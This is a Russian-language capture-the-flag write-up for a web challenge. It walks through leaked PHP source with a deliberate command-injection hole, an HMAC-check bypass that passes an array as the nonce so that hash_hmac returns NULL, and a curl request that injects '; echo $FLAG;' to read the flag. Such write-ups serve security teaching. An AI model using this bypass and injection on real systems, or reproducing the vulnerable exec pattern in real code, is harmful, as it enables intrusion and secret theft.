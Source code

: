 # Web 200 / Неразговорчивый сервер

> Мы нашли бункер, в котором большое количество припасов и медикаментов. Доступ в него управляется сервером, который отказывается с нами разговаривать. Может вам удастся его разговорить?

Заходим на [http://zombie.breakingbrain.org:8080](http://zombie.breakingbrain.org:8080).

Проверяем исходный код страницы, куки, location storage и тд. Пусто.

Смотрим [http://zombie.breakingbrain.org:8080/robots.txt](http://zombie.breakingbrain.org:8080/robots.txt):

```php
User-agent: *
Disallow: index.php.old
```

Отлично, есть исходник:

```php
<?php
   // declare(strict_types=1);
   function handle(): array
   {
       if (empty($_POST['hash']) || empty($_POST['file'])) {
           header('HTTP/1.1 400 Bad Request');

           return ['warn', 'CRITICAL ERROR: Bad Request'];
       }

       $secret = getenv('FLAG');
       if (isset($_POST['nonce'])) {
           $secret = hash_hmac('sha512', $_POST['nonce'], $secret);
       }

       $hash = hash_hmac('sha512', $_POST['file'], $secret);

       if ($hash !== $_POST['hash']) {
           header('HTTP/1.1 403 Forbidden');

           return ['warn', 'CRITICAL ERROR: Access Denied'];
       }

       return ['success', exec('cat '.$_POST['file'])];
   }
?>
```

В конце кода вызывается функция `exec('cat '.$_POST['file'])`. Ага, Remote Code Execution.

Флаг присваивается переменной `$secret` из переменной среды `FLAG`.

Значит, что флаг можно добыть, если при POST запросе в поле file передать `; echo $FLAG;`.

Чтобы это сделать, нужно чтобы выражение `$hash !== $_POST['hash']` было ложным, а это сделать не так уж просто, т.к. тут строгая проверка и мы не знаем `$secret`.

Идём читать документацию по `hash_hmac`: [https://www.php.net/manual/en/function.hash-hmac.php](https://www.php.net/manual/en/function.hash-hmac.php). Вроде ничего особенного, но ниже есть комментарии и первый из них такой:

```php
// Very important notice, if you pass array to $data, php will generate a Warning, return a NULL and continue your application. Which I think is critical vulnerability as this function used to check authorisation typically.
// Example:
<?php
var_dump(hash_hmac('sha256', [], 'secret'));
WARNING hash_hmac() expects parameter 2 to be string, array given on line number 3
NULL
?>
// Of course not documented feature.
```

То есть, если мы в поле `nonce` передадим массив, то `hash_hmac` вернет `NULL` и это значение присвоится переменной `$secret`:

```php
$secret = hash_hmac('sha512', $_POST['nonce'], $secret);
```

Далее вычисляется хэш от `$_POST['file']` с ключом `$secret`:

```php
$hash = hash_hmac('sha512', $_POST['file'], $secret);
```

Оба значения мы знаем, поэтому вычислить нужный хэш не составляет труда (на своей машине):

```php
$ php -r "echo hash_hmac('sha512', '; echo \$FLAG;', NULL);"
cf32f1da8b06a820b031947f62d92d194eb4015b6b500b48623551489bf274ea16932354c8d8d3a034c55b84029251f9d21f8493de3b53bd1ef74dcfb88f320c
```

Этот хэш мы указываем при запросе в поле `hash`, чтобы условие не выполнилось:

```php
if ($hash !== $_POST['hash']) {
```

Выполняем запрос:

```bash
curl \
	--request POST 'http://zombie.breakingbrain.org:8080' \
	--form 'nonce[]=""' \
	--form 'file="; echo $FLAG;"' \
	--form 'hash="cf32f1da8b06a820b031947f62d92d194eb4015b6b500b48623551489bf274ea16932354c8d8d3a034c55b84029251f9d21f8493de3b53bd1ef74dcfb88f320c"'
```

Результат:

```html
<body style="background: black">
  <div>
    <h2 class="success">'ITF{d3adlyBugInPHP}'</h2>
  </div>
  <!-- follow the robots -->
</body>
```

Флаг наш.
